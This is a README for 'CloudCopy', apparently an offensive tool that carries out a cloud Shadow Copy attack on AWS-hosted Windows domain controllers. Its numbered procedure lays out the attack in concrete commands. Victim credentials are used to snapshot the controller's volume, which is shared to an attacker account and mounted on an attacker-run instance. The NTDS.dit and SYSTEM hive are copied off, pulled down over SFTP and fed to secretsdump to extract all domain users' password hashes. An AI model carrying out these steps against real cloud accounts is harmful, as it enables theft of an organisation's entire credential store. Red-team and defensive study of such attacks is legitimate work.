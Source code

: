 # CloudCopy
This tool implements a cloud version of the Shadow Copy attack against domain controllers running in AWS. Any AWS user possessing the EC2:CreateSnapshot permission can steal the hashes of all domain users by creating a snapshot of the Domain Controller mounting it to an instance they control and exporting the NTDS.dit and SYSTEM registry hive file for use with Impacket's secretsdump project.

# Detailed CloudCopy Algorithm
1.  Load AWS CLI with Victim Credentials that have at least CreateSnapshot permissions
2.  Run "Describe-Instances" and show in list for attacker to select
3.  Run "Create-Snapshot" on volume of selected instance
4.  Run "modify-snapshot-attribute" on new snapshot to set "createVolumePermission" to attacker AWS Account
5.  Load AWS CLI with Attacker Credentials
6.  Run "run-instance" command to create new linux ec2 with our stolen snapshot
7.  Ssh run "sudo mkdir /windows"
8.  Ssh run "sudo mount /dev/xvdf1 /windows/"
9.  Ssh run "sudo cp /windows/Windows/NTDS/ntds.dit /home/ec2-user"
10. Ssh run "sudo cp /windows/Windows/System32/config/SYSTEM /home/ec2-user"
11. Ssh run "sudo chown ec2-user:ec2-user /home/ec2-user/*"
12. SFTP get "/home/ec2-user/SYSTEM ./SYSTEM"
13. SFTP get "/home/ec2-user/ntds.dit ./ntds.dit"
14. locally run "secretsdump.py -system ./SYSTEM -ntds ./ntds.dit local -outputfile secrets #expects secretsdump to be on path

